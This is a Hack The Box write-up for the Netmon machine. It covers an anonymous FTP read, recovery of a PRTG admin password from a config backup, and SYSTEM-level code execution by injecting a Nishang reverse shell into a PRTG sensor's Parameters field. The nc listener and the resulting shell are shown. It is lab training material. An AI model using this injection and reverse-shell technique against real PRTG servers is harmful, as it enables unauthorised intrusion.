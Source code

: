 ```yaml
---
layout: single
title: Netmon - Hack The Box
excerpt: "I think Netmon had the quickest first blood on HTB yet. The user flag could be grabbed by just using anonymous FTP and retrieving it from the user directory. I guessed the PRTG admin password after finding an old backup file and changing the year in the password from 2018 to 2019. Once inside PRTG, I got RCE as SYSTEM by creating a sensor and using Nishang's reverse shell oneliner."
date: 2021-06-29
classes: wide
header:
  teaser: /assets/images/htb-writeup-netmon/netmon_logo.png
categories:
  - hackthebox
  - infosec
tags:  
  - ftp
  - prtg
  - powershell
  - nishang
  - config backups
---
```


![](/assets/images/htb-writeup-netmon/netmon_logo.png)

I think Netmon had the quickest first blood on HTB yet. The user flag could be grabbed by just using anonymous FTP and retrieving it from the user directory. I guessed the PRTG admin password after finding an old backup file and changing the year in the password from 2018 to 2019. Once inside PRTG, I got RCE as SYSTEM by creating a sensor and using Nishang's reverse shell oneliner.

## Summary

- We can log in with anonymous FTP and get the `user.txt` flag directly from the Public user folder
- There's a PRTG configuration backup containing an old password that we can download from FTP
- The PRTG password is the almost the same as the one found in the old backup but it ends with `2019` instead of `2018`
- We can get RCE using Powershell scripts running as sensors in PRTG

## Detailed steps

### Nmap scan

The nmap scan shows that anonymous FTP is allowed and that PRTG is running on the webserver.

```
# nmap -sC -sV -F 10.10.10.152
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-02 22:43 EST
Nmap scan report for netmon.htb (10.10.10.152)
Host is up (0.0090s latency).
Not shown: 95 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

### Free flag from FTP

In the nmap scan, the script identified that the FTP server allows anonymous access. Because we're not constrained to `ftproot` and we can look around the entire disk of the box, I quickly found a `user.txt` flag in the `c:\users\public` folder.

```
# ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> cd /users/public
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  07:05AM       <DIR>          Documents
07-16-16  08:18AM       <DIR>          Downloads
07-16-16  08:18AM       <DIR>          Music
07-16-16  08:18AM       <DIR>          Pictures
02-02-19  11:35PM                   33 user.txt
07-16-16  08:18AM       <DIR>          Videos
226 Transfer complete.
ftp> type binary
200 Type set to I.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
33 bytes received in 0.01 secs (4.5173 kB/s)
ftp> exit
221 Goodbye.

root@ragingunicorn:~/htb/netmon# cat user.txt
dd58c...
```

I was too slow for first blood, someone else on HTB got user blood in under 2 minutes.

### Getting access to PRTG

The PRTG application is running on port 80:

![](/assets/images/htb-writeup-netmon/prtg_login.png)

I tried the default credentials `prtgadmin` / `prtgadmin` but I got access denied.

Looking in the filesystem, I found that the configuration directory for PRTG is under `c:\programdata\paessler`.

```
ftp> cd /programdata
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-02-19  11:15PM       <DIR>          Licenses
11-20-16  09:36PM       <DIR>          Microsoft
02-02-19  11:18PM       <DIR>          Paessler
```

I found the configuration file and an old configuration from last year.

```
ftp> cd "PRTG Network Monitor"
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
[...]
02-25-19  09:54PM              1189697 PRTG Configuration.dat
03-02-19  05:33PM              1198465 PRTG Configuration.old
07-14-18  02:13AM              1153755 PRTG Configuration.old.bak
```

The `PRTG Configuration.dat` config file contains the credentials for user `prtgadmin` but they are encrypted (or hashed?) with what seems to be a proprietary method.

![](/assets/images/htb-writeup-netmon/prtg_new_creds.png)

When I checked `PRTG Configuration.old.bak`, I found the dbpassword: `PrTg@dmin2018`

![](/assets/images/htb-writeup-netmon/prtg_old_creds.png)

I tried this password with user `prtgadmin` on the PRTG login page but it didn't work. Then I realized that this is from a 2018 backup, maybe the admin is lazy and re-used the dbpassword for the admin account and simply used the current date (2019).

My guess was correct and I was able to log in with password `PrTg@dmin2019`

![](/assets/images/htb-writeup-netmon/prtg_mainpage.png)

### RCE through PRTG sensors

PRTG is a monitoring tool that supports a whole suite of sensors, like ping, http, snmp, etc. The server itself has been added in the device list, so it's safe to assume we can add sensors to it:

![](/assets/images/htb-writeup-netmon/prtg_devices.png)

I clicked add sensor on the 10.10.10.152 server then selected `EXE/Script sensor`.

![](/assets/images/htb-writeup-netmon/prtg_exe.png)

We can't add powershell custom scripts because we don't have write access to the application directory, but we can leverage the `Parameters` field to add additional code at the end of an existing Powershell script. I used Nishang to get a reverse shell. I added a semi colon at the beginning of the parameters, then pasted the Nishang code after.

![](/assets/images/htb-writeup-netmon/prtg_rce.png)

After the sensor is created, we hit the play button to execute it.

![](/assets/images/htb-writeup-netmon/prtg_rce2.png)

And we get a shell as `nt authority\system`. Box done!

```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.152] 55751

PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32> type c:\users\administrator\desktop\root.txt
30189...
```